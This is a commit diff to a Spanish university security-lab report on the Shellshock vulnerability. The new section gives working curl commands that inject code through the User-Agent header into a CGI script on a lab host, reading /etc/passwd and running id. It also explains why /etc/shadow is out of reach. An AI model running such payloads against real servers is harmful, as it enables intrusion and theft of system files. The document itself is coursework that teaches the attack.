

Before and after one commit to piter1902/seguridad_informatica, a LaTeX document (Practica1/memoria/memoria_pr1.tex): two parts of pages 2 and 3 of 3 before the commit and two parts of pages 2 and 3 of 4 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Parte 4 lista

```diff
--- a/Practica1/memoria/memoria_pr1.tex
+++ b/Practica1/memoria/memoria_pr1.tex
@@ -80,4 +79,14 @@ Se puede observar que la respuesta del servidor contiene la variable de entorno
 
 \section{Tarea 4: Lanzamiento del Ataque Shellshock}
 
-Hola
+Para ejecutar un ataque \emph{shellshock} contra el servidor hay que utilizar lo explicado en el apartado anterior. Se va a proceder a inyectar código extra en la definición de una función utilizando la variable de entorno \emph{HTTP\_{}USER\_{}AGENT}.\\
+
+Para robar el contenido de un fichero secreto del servidor se ha elegido el fichero \texttt{/etc/passwd} que no es visible para los usuarios externos al servidor (no hay forma de acceder a el vía \emph{HTTP}). Se va a utilizar el siguiente comando:
+
+\begin{lstlisting}
+curl -v \
+-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd;" \
+http://192.168.56.106/cgi-bin/myprog.cgi
+\end{lstlisting}
+
+Tras esto observaremos que la respuesta del servidor es la reflejada en la Figura \ref{fig:tarea4_a}.
@@ -83,0 +98,12 @@ Hola
+\label{fig:tarea4_a}
+\end{figure}
+
+Para robar el contenido del fichero \texttt{/etc/shadow} se ha ejecutado el siguiente comando con objetivo de obtener información acerca del usuario que ejecuta el servidor web:
+
+\begin{lstlisting}
+curl -v \
+-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /usr/bin/id" \
+http://192.168.56.106/cgi-bin/myprog.cgi
+\end{lstlisting}
+
+El resultado de este comando (Figura \ref{fig:tarea4_b}) indica que el usuario que ejecuta el servidor no es \emph{root} si no que es un usuario servicio \emph{www-data} y por lo tanto no seremos capaces de robar el contenido del fichero \texttt{/etc/shadow}. Si intentamos realizar un ataque \emph{shellshock} con un \texttt{cat} hacia este fichero el servidor nos devolverá una respuesta vacía, es decir, no se puede abrir el fichero \texttt{/etc/shadow} (Figura \ref{fig:tarea4_c}).
@@ -84,3 +122,5 @@ Hola
+\label{fig:tarea4_c}
+\end{figure}
 
 \section{Tarea 5: Obtención de un Shell inverso a través de un ataque Shellshock}
 
```
Also changed, not shown: Practica1/memoria/images/Tarea_4c.png (added), Practica1/memoria/memoria_pr1.pdf, Practica1/memoria/memoria_pr1.tex (18 more changed lines).
